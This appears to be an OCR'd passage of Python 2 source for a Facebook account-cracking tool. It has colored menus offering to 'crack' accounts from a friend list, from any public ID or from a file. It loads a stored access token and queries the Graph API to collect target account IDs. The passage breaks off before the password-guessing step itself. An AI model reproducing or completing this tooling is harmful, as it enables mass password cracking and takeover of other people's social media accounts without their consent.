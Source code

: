          print logo 
         print 42*"\033[1;96m=" 
         print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               " 
         print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              " 
         print 42*"\033[1;96m=" 
         print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start CLONING WITH DJ" 
         print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            " 
         pilih() 
 def pilih(): 
         unikers = raw_input("\n\033[1;97m >>> \033[1;97m") 
         if unikers =="": 
                 print "\033[1;96m \x1b[1;91mFill in correctly" 
                 pilih() 
         elif unikers =="1": 
                 super() 
         elif unikers =="0": 
                 jalan('Token Removed') 
                 os.system('rm -rf login.txt') 
                 keluar() 
         else: 
                 print "\033[1;96m \x1b[1;91mFill in correctly" 
                 pilih() 
 def super(): 
         global toket 
         os.system('clear') 
         try: 
                 toket=open('login.txt','r').read() 
         except IOError: 
                 print"\033[1;96m \x1b[1;91mToken invalid" 
                 os.system('rm -rf login.txt') 
                 time.sleep(1) 
                 login() 
         os.system('clear') 
         print logo 
         print 42*"\033[1;96m=" 
         print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List" 
         print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID" 
         print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File" 
         print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back" 
         pilih_super() 
 def pilih_super(): 
         peak = raw_input("\n\033[1;97m >>> \033[1;97m") 
         if peak =="": 
                 print "\033[1;96m \x1b[1;91mFill in correctly" 
                 pilih_super() 
         elif peak =="1": 
                 os.system('clear') 
                 print logo 
                 print 42*"\033[1;96m=" 
                 jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...') 
                 r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket) 
                 z = json.loads(r.text) 
                 for s in z['data']: 
                         id.append(s['id']) 
         elif peak =="2": 
                 os.system('clear') 
                 print logo 
                 print 42*"\033[1;96m=" 
                 idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m") 
                 try: 
                         jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket) 
                         op = json.loads(jok.text) 